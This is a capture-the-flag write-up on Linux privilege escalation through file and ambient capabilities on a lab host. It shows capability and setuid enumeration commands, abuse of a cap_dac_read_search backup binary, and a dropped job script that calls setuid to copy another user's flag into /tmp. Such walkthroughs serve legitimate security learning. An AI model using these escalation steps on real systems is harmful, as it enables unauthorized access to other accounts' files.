







# Act I — Foothold

## Least Privilege, Overdone

Mission brief (kael.txt)

<p align="center"></p>

Looking into how to check for file capabilities, I used the following command to search the entire file system for capabilities

```bash
ghost2@8d32e4ba7d59:~$ getcap -r / 2>/dev/null

/usr/bin/su cap_dac_read_search,cap_setgid,cap_setuid=ep
/usr/local/bin/hal-deploy-run cap_setgid,cap_setuid=ep
/usr/local/bin/halcyon-ping cap_net_raw=ep
/usr/local/bin/halcyon-web cap_net_bind_service=ep
/usr/local/bin/hal-runner-wrap cap_setuid=ep
/usr/local/bin/hal-guard cap_dac_override=ep
/usr/local/bin/halcyon-backup cap_dac_read_search=ep
```

Since the brief talks about a 'backup agent', we can align our sight onto `/usr/local/bin/halcyon-backup cap_dac_read_search=ep`

Capabilities:
- **CAP_DAC_READ_SEARCH**: Allows the executing process to completely bypass file read permission checks as well as directory read and execute (search) permission checks.
- **=ep**: This flag sets the capability to the Effective (e) and Permitted (p) sets of the binary.
    - Permitted: The process is allowed to use this capability.
    - Effective: The capability is automatically active when the binary runs.

Great! This means, using this binary, we are able to read and execute any files on the system. Let's try running it:

```bash
ghost2@8d32e4ba7d59:/opt/hal-runner$ /usr/local/bin/halcyon-backup
halcyon-backup: HALCYON backup agent
usage: /usr/local/bin/halcyon-backup <path under /var/backups/.vault/ (a file to read, or the vault to list)>
```

Now, we can try reading the files in `/var/backups/.vault/`

<p align="center"></p>

## The setuid That Wasn't

We can now log into the deploy account, where we get the next fragment

<p align="center"></p>

As expected, `find / -perm -4000 -type f 2>/dev/null` returns nothing, so we should stick with enumerating file capabilities. Looking into the fragment, we can see they specified `A helper on this box can change who it runs as without ever being setuid root.`

One of the executables for the file capability enumeration has this capability: `/usr/local/bin/hal-deploy-run cap_setgid,cap_setuid=ep`

Capabilities:
- **cap_setuid**: Allows a process to change its user ID (UID).
- **cap_setgid**: Allows a process to change its group ID (GID).

So, I tried running the file, and immediately switched to the builder user. We can then read the flag

<p align="center"></p>

## Ambient Ambitions

<p align="center"></p>

Taking a look at the running processes, we can see that there is a running process called `/usr/local/bin/hal-runner-loop`

<p align="center"></p>

We are able to read the file:

```bash
#!/usr/bin/env bash
# HALCYON job runner. Runs as root, every 30s executes each job dropped into
# /opt/hal-runner/jobs via hal-runner-wrap (which runs it as builder with
# CAP_SETUID in the ambient set). This is a plain loop, not a systemd unit.
set -uo pipefail
JOBS=/opt/hal-runner/jobs
while true; do
  for job in "${JOBS}"/*; do
    [ -f "${job}" ] && [ -x "${job}" ] || continue
    /usr/local/bin/hal-runner-wrap "${job}" >/dev/null 2>&1 || true
  done
  sleep 30
done
```

So if we drop a malicious job in `/opt/hal-runner/jobs`, we may be able to escalate to `ops`

Let's look into what Ambient capabilities are:

Usually a capability like cap_setuid=ep is attached directly to a binary's inode. When that specific file is executed, the kernel grants the capability to the resulting process. However, this only applies to the binary the capability is stamped on. If that binary then execs something else, the capability doesn't normally carry over.

Ambient capabilities is the exception to that rule. If a process has a capability in its ambient set, that capability survives execve() into a new program, even a completely ordinary binary with no capability bits of its own.

In this case:

1. `hal-runner-loop` (root) calls `hal-runner-wrap` on every file in `/opt/hal-runner/jobs`.
2. `hal-runner-wrap` execs the job with CAP_SETUID already sitting in its ambient set.
3. The job inherits that ambient CAP_SETUID the instant it starts running.

We can make a simple python script and add it as a job. All this script does is run a subprocess using `ops` UID to read the flag, save it to `/tmp` and give it read and write permissions. We can get the UID of `ops` with `getent passwd ops`

```bash
#!/bin/sh
{
  /usr/bin/python3.10 -c "
import os, subprocess
os.setuid(1002)
subprocess.run(['cat', '/var/lib/ops/.flag'], stdout=open('/tmp/ops_flag', 'w'), stderr=subprocess.STDOUT)
"
} > /tmp/final_out 2>&1
chmod 666 /tmp/ops_flag /tmp/final_out
```

I had to store the python script in a bash script, because for some reason a regular python script did not work. This script also saves any error if there was any. After waiting 30secs, we get the flag!

<p align="center"></p>